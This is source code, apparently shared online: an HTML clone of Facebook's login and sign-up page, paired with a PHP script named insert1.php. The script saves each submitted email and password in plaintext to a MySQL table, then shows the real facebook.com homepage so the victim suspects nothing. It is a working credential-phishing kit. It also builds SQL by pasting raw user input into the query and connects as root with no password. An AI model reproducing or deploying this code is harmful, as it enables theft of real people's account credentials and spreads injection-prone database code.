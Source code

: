 <html>
<head>
    <link href="Style.css" rel="stylesheet" />
    <title>Facebook home page template html</title>
</head>
<body>
    <div id="header_wrapper">
        <div id="header">

          <form action="insert1.php" method="post">
                <li>Email or Phone<br><input type="text" name="email"></li>
                <li>Password<br><input type="password" name="password"><br><a href="">Forgotten account?</a></li>
                <li><input class="submit" name="submit" type="submit" value="Log In"></li>
            </form>

        </div>
    </div>

    <div id="wrapper">

        <div id="div1">

        </div>

        <div id="div2">
            <h1>Create an account</h1>

            <p>It's free and always will be.</p>
            <li><input type="text" placeholder="First Name" id="Firstname"><input type="text" placeholder="Surname" id="surname"></li>
            <li><input type="text" placeholder="Mobile number or email"></li>
            <li><input type="password" placeholder="New password"></li>

            <p>Birthday</p>

            <li>
                <select><option>Day</option></select>
                <select><option>Month</option></select>
                <select><option>Year</option></select>
                <a href="">Why do I need to provide my date of birth?</a>
            </li>

            <li><input type="radio">Female <input type="radio">Male</li>
            <li id="terms">By clicking Create an account, you agree to our <a href="">Terms</a> and that <br>you have read our <a href="">Data Policy</a>, including our <a href="">Cookie Use</a>.</li>
            <li><input type="submit" value="Create an account"></li>
            <li id="create_page"><a href="">Create a Page</a> for a celebrity, band or business.</li>
        </div>

    </div>

    <div id="footer_wrapper">

        <div id="footer1">
            English (UK) <a href="">हिन्दी</a><a href="">ਪੰਜਾਬੀ</a><a href=""> اردو</a><a href="">தமிழ்</a><a href="">বাংলা</a><a href="">मराठी</a><a href="">తెలుగు</a><a href="">ગુજરાતી</a><a href="">ಕನ್ನಡ</a><a href="">മലയാളം</a>
        </div>
        <div id="footer2">

            <a href="#">Sign Up</a><a href="#">Log In</a><a href="#">Messenger</a><a href="#">DotNetTec</a><a href="#">Mobile</a><a href="#">Find Friends</a>
            <a href="#">Badges</a><a href="#">People</a><a href="#">Pages</a><a href="#">Places</a><a href="#">Games</a><a href="#">Locations</a>
            <a href="">Celebrities</a><a href="">Groups</a><a href="">Moments</a><a href="">About</a>
            <a href="">Create Advert</a><a href="">Create Page</a><a href="">Developers</a>
            <a href="">Careers</a><a href="">Privacy</a><a href="">Cookies</a><a href="">Ads</a><a href="">Terms</a><a href="">Help</a>

        </div>
    </div>
</body>
</html>
-----------------------------------------------------------------------

<?php
/* Attempt MySQL server connection. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
$link = mysqli_connect("localhost", "root", "", "face");
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}

if(isset($_POST['submit'])){ // Fetching variables of the form which travels in URL
$email = $_POST['email'];
$password = $_POST['password'];

}
if($email ==''||$password ==''){
$home = file_get_contents("https://www.facebook.com");
echo $home;
}
else
{
// Attempt insert query execution
//$sql = "insert into user(VEHICLE, IDNO, AREA, DATE) values ('$VEHICLE', '$IDNO', '$AREA', '$DATE')";

//$sql1 = "select VEHICLE from user WHERE VEHICLE = ('$VEHICLE') ";
//if(mysqli_query($link, $sql1)){
  //  echo "VEHICLE ALREADY INSERTED";
//}
//else{
$sql = "insert into facetable(email, password, date) values ('$email', '$password', 'date')";
if(mysqli_query($link, $sql)){
$home = file_get_contents("https://www.facebook.com");
echo $home;
		} 
else{
$home = file_get_contents("https://www.facebook.com");
echo $home;
}
}

// Close connection
mysqli_close($link);
?>
</br>




